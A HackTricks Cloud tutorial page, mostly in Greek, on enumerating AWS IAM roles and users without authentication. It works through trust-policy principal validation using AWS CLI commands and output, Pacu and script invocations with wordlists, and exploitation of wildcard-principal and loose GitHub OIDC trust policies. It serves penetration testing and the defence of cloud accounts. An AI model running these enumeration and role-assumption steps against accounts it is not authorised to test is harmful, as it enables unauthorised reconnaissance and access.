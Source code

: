 # AWS - IAM & STS Unauthenticated Enum

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## Εντοπισμός Ρόλων & Ονομάτων Χρηστών σε έναν λογαριασμό

### ~~Assume Role Brute-Force~~

{% hint style="danger" %}
**Αυτή η τεχνική δεν λειτουργεί** πλέον καθώς αν ο ρόλος υπάρχει ή όχι, πάντα λαμβάνετε αυτό το σφάλμα:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Μπορείτε **να το δοκιμάσετε εκτελώντας**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Η προσπάθεια **ανάληψης ρόλου χωρίς τις απαραίτητες άδειες** προκαλεί ένα μήνυμα σφάλματος από το AWS. Για παράδειγμα, αν δεν έχετε εξουσιοδότηση, το AWS μπορεί να επιστρέψει:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Αυτό το μήνυμα επιβεβαιώνει την ύπαρξη του ρόλου αλλά υποδεικνύει ότι η πολιτική ανάληψης ρόλου δεν επιτρέπει την ανάληψή σας. Αντίθετα, η προσπάθεια **ανάληψης ενός ανύπαρκτου ρόλου οδηγεί σε διαφορετικό σφάλμα**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Ενδιαφέρον είναι ότι αυτή η μέθοδος **διάκρισης μεταξύ υπαρχόντων και μη υπαρχόντων ρόλων** είναι εφαρμόσιμη ακόμα και σε διαφορετικούς λογαριασμούς AWS. Με ένα έγκυρο AWS account ID και μια στοχευμένη λίστα λέξεων, μπορεί κανείς να απαριθμήσει τους ρόλους που υπάρχουν στον λογαριασμό χωρίς να αντιμετωπίσει εγγενείς περιορισμούς.

Μπορείτε να χρησιμοποιήσετε αυτό το [script για να απαριθμήσετε πιθανούς principals](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) εκμεταλλευόμενοι αυτό το ζήτημα.

### Trust Policies: Brute-Force Cross Account roles and users

Η διαμόρφωση ή η ενημέρωση της **trust policy ενός IAM ρόλου περιλαμβάνει τον καθορισμό των AWS πόρων ή υπηρεσιών που επιτρέπεται να αναλάβουν αυτόν τον ρόλο** και να αποκτήσουν προσωρινά διαπιστευτήρια. Εάν ο καθορισμένος πόρος στην πολιτική **υπάρχει**, η trust policy αποθηκεύεται **επιτυχώς**. Ωστόσο, εάν ο πόρος **δεν υπάρχει**, δημιουργείται **σφάλμα**, υποδεικνύοντας ότι παρέχεται ένας μη έγκυρος principal.

{% hint style="warning" %}
Σημειώστε ότι σε αυτόν τον πόρο θα μπορούσατε να καθορίσετε έναν cross account ρόλο ή χρήστη:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Αυτό είναι ένα παράδειγμα πολιτικής:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Αυτό είναι το **σφάλμα** που θα βρείτε αν χρησιμοποιήσετε έναν **ρόλο που δεν υπάρχει**. Αν ο ρόλος **υπάρχει**, η πολιτική θα **αποθηκευτεί** χωρίς κανένα σφάλμα. (Το σφάλμα είναι για ενημέρωση, αλλά λειτουργεί και κατά τη δημιουργία)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
You can automate this process with [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Our using [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* The `admin` role used in the example is a **role in your account to by impersonated** by pacu to create the policies it needs to create for the enumeration

### Privesc

Σε περίπτωση που ο ρόλος έχει διαμορφωθεί λάθος και επιτρέπει σε οποιονδήποτε να τον αναλάβει:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Ο επιτιθέμενος θα μπορούσε απλά να το υποθέσει.

## Third Party OIDC Federation

Φανταστείτε ότι καταφέρνετε να διαβάσετε ένα **Github Actions workflow** που έχει πρόσβαση σε έναν **ρόλο** μέσα στο **AWS**.\
Αυτή η εμπιστοσύνη μπορεί να δώσει πρόσβαση σε έναν ρόλο με την ακόλουθη **trust policy**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Αυτή η πολιτική εμπιστοσύνης μπορεί να είναι σωστή, αλλά η **έλλειψη περισσότερων συνθηκών** θα πρέπει να σας κάνει να την αμφισβητήσετε.\
Αυτό συμβαίνει επειδή ο προηγούμενος ρόλος μπορεί να αναληφθεί από **ΟΠΟΙΟΝΔΗΠΟΤΕ από Github Actions**! Θα πρέπει να καθορίσετε στις συνθήκες και άλλα πράγματα όπως το όνομα της οργάνωσης, το όνομα του αποθετηρίου, το περιβάλλον, το κλαδί...

Μια άλλη πιθανή εσφαλμένη διαμόρφωση είναι να **προσθέσετε μια συνθήκη** όπως η ακόλουθη:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Note that **wildcard** (\*) before the **colon** (:). You can create an org such as **org\_name1** and **assume the role** from a Github Action.

## Αναφορές

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Δείτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Γίνετε μέλος της** 💬 [**ομάδας Discord**](https://discord.gg/hRep4RUj7f) ή της [**ομάδας telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
